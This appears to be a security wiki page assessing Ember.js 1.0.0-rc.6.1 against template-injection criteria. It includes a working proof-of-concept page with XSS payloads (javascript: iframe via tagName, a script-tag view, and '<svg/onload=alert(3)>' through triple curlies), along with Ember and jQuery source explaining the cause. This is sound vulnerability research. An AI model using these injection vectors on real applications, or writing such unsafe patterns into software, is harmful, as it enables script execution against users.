 

# Introduction #

"Write dramatically less code with Ember's Handlebars integrated templates that update automatically when the underlying data changes.

Don't waste time making trivial choices. Ember.js incorporates common idioms so you can focus on what makes your app special, not reinventing the wheel.

Ember.js is built for productivity. Designed with developer ergonomics in mind, its friendly APIs help you get your job done—fast."

From http://emberjs.com/

# Quick Facts #

  * [Ember.js 1.0.0-rc.6.1 (Uncompressed)](http://builds.emberjs.com/ember-1.0.0-rc.6.1.js)
  * Usage Stats http://trends.builtwith.com/javascript/Ember
  * Dedicated Security Program & response process http://emberjs.com/security/
  * Security Mailing-List https://groups.google.com/forum/#!forum/ember-security

  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are parsed safely, yet it's possible to execute arbitrary JavaScript by design
  * **{}SEC-B** <font color='green'><b>PASS</b></font> An isolated execution scope for expressions exists
  * **{}SEC-C** <font color='green'><b>PASS</b></font> Only `SCRIPT` elements with proper type can serve as template containers
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, external templates recommended to be fetched via AJAX
  * **{}SEC-E** <font color='green'><b>PASS</b></font> SRP and security mailing list are in place and work excellently.

# Injection Attacks #

Ember.js uses an advanced parser to validate the expressions a developer can use inside the usual curlies. Unlike frameworks such as AngularJS, Ember.js is not vulnerable against "sandbox"-escapes such as the `constructor`-trick.

Earlier versions were nevertheless vulnerable against a concatenation-based bug in the `tagName` attribute of the view element. The bug has been fixed in version 1.0.0-rc.6.1.

## Attacks against View.tagName ##

The following "paste-and-go"-ready code example illustrates this issue. Furthermore, the `tagName` attribute can still be used for arbitrary script execution by simply creating a `<script>` element and filling the view with the JavaScript code to execute. ember.js also supports usage of triple-curlies to unsafely inject content. This is a feature most "mustache"-driven templating systems ship.

```
<!doctype html>
<html>
<head>
  <script src="http://code.jquery.com/jquery-1.10.2.js"></script>
  <script src="http://builds.emberjs.com/handlebars-1.0.0-rc.4.js"></script>
  <script src="http://builds.emberjs.com/ember-1.0.0-rc.6.1.js"></script>
  <script src="http://emberjs.com.s3.amazonaws.com/getting-started/ember-data.js"></script>
  <script src="http://emberjs.com.s3.amazonaws.com/getting-started/local_storage_adapter.js"></script>
  <script src="test.js"></script>
</head>
<body>
  <script>alert = function(a){
  	return confirm(a)
  }
  </script>
  <script type="text/x-handlebars" data-template-name="x">
      {{view tagName=[iframe src=javascript:alert(1)]}} <- fixed in 1.0.0-rc.6.1 (CVE-2013-4170)
      {{#view tagName=script}}alert(2){{/view}}
      {{#each controller}}{{{unsafe}}}{{/each}}
  </script>
</body>
```

test.js
```
window.X = Ember.Application.create();

X.Router.map(function () {
  this.resource('x', { path: '/' });
});

X.XRoute = Ember.Route.extend({
  model: function () {
    return X.X.find();
  }
});

X.Store = DS.Store.extend({
  revision: 12,
  adapter: 'DS.FixtureAdapter'
});

X.X = DS.Model.extend(  {
    id: 1,
    unsafe: '<svg/onload=alert(3)>'
});

X.X.FIXTURES = [{id:1}];

for (var name in Handlebars.templates) {
  var template = Handlebars.templates[name];
  Ember.TEMPLATES[name] = template;
}
```

## Script Execution via View.tagName ##

Ember.js calls its `appendTo()` method and thereby simply passes the dirty DOM-work over to jQuery (without Ember.js wouldn't run anyway). jQuery in its wisdom realizes that a `<script>` elements needs to be appended, parses its content and then evaluates this data.

```
appendTo: function(target) {
    this._insertElementLater(function() {
        Ember.assert("You cannot append to an existing Ember.View. Consider using Ember.ContainerView instead.", !Ember.$(target).is('.ember-view') && !Ember.$(target).parents().is('.ember-view'));
        this.$().appendTo(target);
    });
    return this;
}


[...]

// Evaluate executable scripts on first document insertion
for (i = 0; i < hasScripts; i++) {
    node = scripts[i];
    if (rscriptType.test(node.type || "") && 
        !jQuery._data(node, "globalEval") && jQuery.contains(doc, node)) {
                                
        if (node.src) {
            // Hope ajax is available...
            jQuery._evalUrl(node.src);
        } else {
            jQuery.globalEval((node.text || node.textContent || node.innerHTML || "").replace(rcleanScript, ""));
        }
    }
}
```